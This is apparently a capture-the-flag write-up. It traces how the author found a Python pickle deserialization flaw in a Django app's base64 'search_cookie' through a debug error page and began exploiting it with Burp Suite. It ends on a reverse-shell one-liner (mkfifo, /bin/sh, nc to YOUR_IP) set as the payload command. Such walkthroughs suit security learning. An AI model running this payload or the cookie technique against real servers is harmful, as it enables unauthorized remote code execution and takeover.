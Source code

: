Now we know it's running on a python server using WSGI

So we visit the port using our web browser and encounter a web application, After trying to visit `/robots.txt` we get this image

![Image](https://i.imgur.com/PQ9wfoR.png)

Which indicates that the web application is running using `Django`. And that came as an amazing surprise as I've been developing using Django for years now.

I know there will be no use to enumerate more using dirbuster or gobuster because we already know all of the urls that could exist in the application.

I start off by visiting each of them and trying to find a clue or usefull information.

I noticed most of the urls require me to be authenticated so I quickly created a random user and now I can safely access the urls.

The most interesting one was the `/search` url which gave me this error message.

![Image](https://i.imgur.com/CisgV8n.png)

Now if you `click` on the place that says `'results': results,` it will actually expand the code a little bit and might show you something interesting like the following.

![Image](https://i.imgur.com/6dUBaXw.png)

As soon as I saw line `53` I knew exactly what to do, it was unpacking something called `query` with `pickle`
And if you can control what `pickle` loads, you should have the ability to run remote code execution on this web application.

## Exploitation

1. We start using Burp Suite to intercept all calls being made to the web application.
2. We visit the home page again and in the top right corner we can see a `Search box`, we typed something random like `test` and send it.

![Image](https://i.imgur.com/mO2uDLq.png)

3. In the response of that request we can see that we are set a specific cookie called `search_cookie`, and upon decoding it using base64 we can see some random stuff then `test` which is our search query.

![Image](https://i.imgur.com/I53DZFn.png)

4. Upon sending another search request with the value `test2` the same process happens, we send a `query` and we get back a new `search_cookie`
5. Now we have a good idea of what's happening, the server probably `loads` the `search_cookie` whenever we send a new search request, so let's create our exploit! I'll use this to create my payload `https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd`
6. Change the `DEFAULT_COMMAND` to be something like

```python
DEFAULT_COMMAND = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | ' '/bin/sh -i 2>&1 | nc YOUR_IP 1234 > /tmp/f')
```
